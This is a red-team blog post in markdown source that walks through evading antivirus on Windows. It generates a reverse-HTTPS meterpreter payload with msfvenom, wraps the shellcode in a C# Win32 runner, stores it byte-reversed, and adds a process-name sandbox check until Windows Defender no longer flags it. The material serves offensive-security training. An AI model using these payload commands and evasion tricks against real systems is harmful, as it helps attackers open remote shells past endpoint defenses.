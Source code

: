 ```yaml
---
layout: post
title: 'AV Evasion Part 1'
category: evasion
---
```


After passing the [Offensive Security Certified Professional](https://www.offensive-security.com/pwk-oscp/) I felt on top of the world.  
But soon reality crept in and I realized that Windows Defender flagged the majority of what I was taught.  This gave me a false sense of security from a blue team standpoint in thinking that "Modern Anti-Virus companies are pretty good.  There is no way an attacker is sneaking past my EDR.

I was wrong.

It turns out that just playing with the payload a little bit completely negates detection and let's the red team run free.  I want to demonstrate in this post some fundamentals of Anti-Virus evasion.

We will start and see what a vanilla meterpreter payload gets us.  The following command will generate a meterpreter .exe file in Kali Linux.

<code>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f exe -o blog1.exe</code>

Now let's upload this to [antiscan.me](https://antiscan.me) and see how it gets detected.  AntiScan.me is used since it doens't distribute binaries to the AV venders which makes it more stealthy.

<img src="images/evasion1/vanillaResult.PNG">

18/26 is a fair bit of detection.
(It's 2021, how do you not detect a vanilla meterpreter payload.  Come on vendors).

This would have been the end of me in my original PwK days.  Thanks to some basic [OSEP](https://www.offensive-security.com/pen300-osep/) training, we have a good base to work with.

Modern day malware heavily utilizes the Win32 API that is  built into Windows for several reasons.  
<ul>
<li> it is built into Windows so functionality doesn't have to be re-written </li>
<li> It doesn't get flagged by AV</li>
<li> it is fast and <i>usually</i> well documented. </li>
</ul>

<img src="images/evasion1/winVanillaPayload.PNG">

We choose c# in this demonstration as it is easy to work in and well documented.  languages such as Boo and Nim work just as well.
This is a standard Win32 API shellcode runner in c# written in Visual Studio.  It uses the following function prototypes that were pulled from [P/Invoke](https://pinvoke.net). 

 * [VirtualAlloc](http://pinvoke.net/default.aspx/kernel32/VirtualAlloc.html) - Create an executable piece of memory.
 * [CreateThread](http://pinvoke.net/default.aspx/kernel32/CreateThread.html) - To start execution of the shellcode in memory. 
 * [WaitForSingleObject](http://pinvoke.net/default.aspx/kernel32/WaitForSingleObject.html) - To not crash upon receiving a command. 
 
We will generate some meterpreter c# shellcode and paste where the comment says to. 
<code> msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=443 -f csharp </code>


Lets compile our shellcode runner and scan again.

<img src="images/evasion1/winVanillaReverse.PNG">

15 out of 26 still isn't great.  Let's play with our code and see if we can't get it down even farther.

Since we know our Win32 APIs aren't getting flagged by signature checks.  Let's mess with our shellcode.

Our shellcode get's stored as an Array in c#.  We can store our shellcode backwards and utilize the Array.Reverse() method to restore our shellcode at runtime to evade detection.

We will use [this site](https://yupana-engineering.com/online-reverse-byte-array) to reverse our byte array.

We will take the output from the website and put it over our existing shellcode.

Finally, we will implement our Array.Reverse method.  I went ahead and changed the buf variable name in case it would be associated with the signature.

<img src="images/evasion1/ArrayReverse.PNG">

Let's reupload and see how we did.

<img src="images/evasion1/winReverse1Result.PNG">

Our bypass was very sucessful!  Only 6 AVs are catching our payload.  Unfortunately, Windows Defender is one of them which is enabled on most devices by default

Let's see if we can't squeeze past it.  
We know our signature detection is pretty good, but what about heuristics? 
Unknown applications get executed in a sandbox before being allowed to execute natively.  If our payload can detect if we are in a sandbox, we cana evade being flagged as malicious and execute.

Most sandboxes will dynamically rename the payload.  We will implement a simple process name check in our code and exit gracefully if the .exe is not named "hop.exe"

C# allows us to do this natively with the Diagnostics library using <code>System.Diagnostics.Process.GetCurrentProcess();</code>

<img src="images/evasion1/FinalPayloadCheck.PNG">
 
Our code now checks to see if our process is named "hop.exe".  Let's upload one more time to see if we are sucessful.

<img src="images/evasion1/FinalPayloadResults.PNG">

Excellent, our payload now evades Windows Defender and is only caught by 5 obscure AVs. Even better, the naming convention tells us we are suspect of a known malware variant or heuristics.

A follow up challenge for the reader is to research HEUR/AGEN.1131009 to see what the heuristic behavior our payload is performing and to research the Rozena malware for similarities to our payloads.

This concluses part one of my AV Evasion writeup and my first post.  

"Hop" to see everyone next time. 
